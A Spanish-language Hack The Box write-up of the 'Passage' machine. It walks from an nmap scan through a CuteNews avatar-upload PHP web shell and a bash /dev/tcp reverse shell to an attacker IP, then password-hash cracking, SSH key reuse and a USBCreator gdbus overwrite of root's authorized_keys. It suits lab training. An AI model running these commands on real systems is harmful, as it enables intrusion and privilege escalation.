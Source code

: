 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: ""
date: 2023-12-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-passage/passage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Abusing JWT

---
```


# PortScan
____

```
 # Nmap 7.93 scan initiated Fri Dec  1 10:05:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.206
 Nmap scan report for 10.10.10.206
 Host is up (0.056s latency).
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
 |   256 71645150c37f184703983e5eb81019fc (ECDSA)
 |_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
 |_http-title: Passage News
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Fri Dec  1 10:05:43 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```


# WebSite
____
![](/assets/images/htb-writeup-passage/Pasted image 20231201114320.png)

Parece un sitio de noticias, así que opto por ver el código fuente, notando qué está corriendo un "**CuteNews**", que indagando un poco en internet es un gestor de noticias.
![](/assets/images/htb-writeup-passage/Pasted image 20231201114800.png)


Pruebo ir a esa redirección, pero sin sin ir al recurso "**rss.php**", descubriendo así el panel de autenticación.

![](/assets/images/htb-writeup-passage/Pasted image 20231201114925.png)

Logrando así ver la versión del "**CuteNews**", así que sabiendo la versión se me ocurre buscar posibilidades en internet...

Encontrándome así que esta versión es vulnerable a un **RCE** mediante la subida de un archivo malicioso **PHP** al avatar, usando los primeros **magick numbers** de un **GIF** para saltar la "**medida de seguridad**" de que se suban archivos maliciosos.

**PoC** de un script en python para hacerlo automatizado tan sólo indicando la URL [CuteNews 2.1.2 Remote Code Execution](https://packetstormsecurity.com/files/159134/CuteNews-2.1.2-Remote-Code-Execution.html)


En éste caso, estaré haciéndolo manual ya qué conozco como el script funciona & hace esta subida de archivo malicioso...

1. Creamos el archivo malicioso con extensión **.php** que subiremos como "avatar":
```bash
GIF8;

<?php system($_GET['cmd']); ?>
```


2. Nos registramos en el "**CuteNews**", para irnos a la "**opciones personales**".

![](/assets/images/htb-writeup-passage/Pasted image 20231201115631.png)

3. Posterior a ello subimos en el avatar el archivo malicioso **php**, logrando evaditar la "medida de seguridad" para no subir código php.

4. Vamos al directorio de subidas de archivos, logrando ver el avatar que hemos subido.
![](/assets/images/htb-writeup-passage/Pasted image 20231201115917.png)

![](/assets/images/htb-writeup-passage/Pasted image 20231201115957.png)

Logrando así como vemos arriba llevar a cabo el **RCE** exitosamente,  así que procedo a entablarme una **Reverse Shell**.


1. Nos ponemos en escucha con **Netcat**.
```bash
nc -nlvp PORT
```

2. Nos mandamos la **Reverse Shell** desde la máquina por la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.x.x/PORT 0>%261'
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201120446.png)

Ya tan sólo quedaría darle Tratamiento TTY, sino sabes como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios #1 
___

Lo primero qué hago, es ver cuales son los usuarios con directorios personales.
```bash
ls -la /home/
```
![](/assets/images/htb-writeup-passage/Pasted image 20231201120824.png)

Descubriendo qué existen dos usuarios con directorios, "**nadav**" & "**paul**", y a los cuales nisiquiera podemos entrar a sus directorios, así que empiezo buscando en el código fuente del servicio web **CuteNews**.

Descubriendo así en el directorio "/**cdata**" un subdirectorio interesante con nombre "**/users**", el cual contiene información de los usuarios en **base64**.
hallando allí un recurso llamado "lines", el cual contiene multiples cadenas en base64 aparentemente con información de todos los usuarios...
![](/assets/images/htb-writeup-passage/Pasted image 20231201121158.png)

Al ser varias cadenas, hago una iteración rápida para desconvertir de base64 cada linea del archivo "**lines**".
```bash
cat lines | grep -v php | while read line; do echo $line | base64 -d;echo; done
```

Logrando así ver información de los usuarios en texto claro.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121424.png)

Excepto la contraseña, lo qué aparentemente está **hasheada**, en éste caso me interesaría **crackear** la qué es del usuario **Paul**, a ver sí se está reusando esa contraseña del "**CuteNews**" en el usuario válido del sistema.

copio el **hash**, y utilizo el recurso web para crackear [hashes.com](https://hashes.com/en/decrypt/hash), logrando así crackear la contraseña.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121647.png)

y pruebo a reutilizarla como "**paul**"
![](/assets/images/htb-writeup-passage/Pasted image 20231201121712.png)

Ha funcionado, y hemos ingresado como Paul.

# Escalada de Privilegios #2 
___

Indagando en el directorio personal de "**paul**", descubrí que en el directorio **SSH** tiene como claves autorizadas la de **nadav** así que podríamos ingresar a éste usuario sin proporcionar contraseña.

![](/assets/images/htb-writeup-passage/Pasted image 20231201121842.png)

# Escalada de Privilegios #3 
___

Siendo "**nadav**", entro a su directorio personal, descubriendo qué está un "**.viminfo**" y procedo a ver qué contiene.
![](/assets/images/htb-writeup-passage/Pasted image 20231201122046.png)

Como vemos en el historial de **vim**  existe un **USBCreator** en la máquina.

Indago en internet en busca de posibles vulnerabilidades para escalar privilegios con ésto, encontrando así la vulnerabilidad **CVE-2015-3643**, la cual de forma resumida consiste en qué podemos **sobre-escribir** cualquier archivo existente aunque no tengamos permisos, así que se me ocurre sobre-escribir el "**authorized_keys**" de **Root** para ganar acceso mediante **SSH** sin proporcionar credenciales.

1. Creamos una copia de la clave pública de "**nadav**" en el directorio de la misma.
```bash
cp authorized_keys ~/authorized_keys
```

2. Sobre-escribimos la clave autorizada de Root, para poder acceder como "nadav" sin proporcionar credenciales.
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys root/.ssh/authorized_keys true
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201124305.png)

Logrando así ganar acceso como Root.
